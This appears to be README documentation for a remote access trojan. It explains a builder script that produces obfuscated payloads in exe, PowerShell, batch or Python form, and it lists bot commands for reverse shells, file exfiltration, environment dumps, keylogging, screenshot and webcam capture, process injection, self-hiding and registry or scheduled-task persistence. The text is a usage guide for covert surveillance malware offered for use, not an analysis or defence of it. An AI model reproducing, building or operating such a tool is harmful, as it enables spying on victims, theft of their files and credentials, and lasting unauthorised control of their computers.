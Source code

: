 ### Generate Payload
```bash
python builder.py
```

The builder will:
1. Read configuration from `api.json` or prompt for input
2. Encrypt all sensitive values with the build key
3. Apply advanced obfuscation
4. Generate the payload in your chosen format

### Output Options
- **exe**: Standalone Windows executable (recommended)
- **ps1**: PowerShell script
- **bat**: Batch file
- **py**: Python script

## 📱 Available Commands

### System Information
- `!info` - Detailed system information (CPU, GPU, RAM, OS)
- `!env` - Dump environment variables
- `!processes` - List running processes
- `!tasks` - List scheduled tasks
- `!services` - List Windows services

### File Operations
- `!upload <destination>` - Upload file to client (attach file to message)
- `!download <file>` - Download file from client
- `!exfil <file>` - Exfiltrate file with encoding

### System Control
- `!cmd <command>` - Execute shell command
- `!shell <ip:port>` - Spawn reverse shell
- `!sleep <seconds>` - Sleep for specified duration
- `!kill` - Terminate the client

### Surveillance
- `!screenshot` - Take screenshot
- `!camera` - Take webcam snapshot
- `!clip [computer|camera] [seconds]` - Record video (max 30s)
- `!keylog [seconds]` - Start keylogger (default 10s)

### Advanced Operations
- `!inject <pid> <payload>` - Inject payload into process
- `!hide` - Inject into random process and kill self
- `!persist [method]` - Setup persistence (registry/schtask/startup/all)
- `!fullclear` - Remove all persistence methods
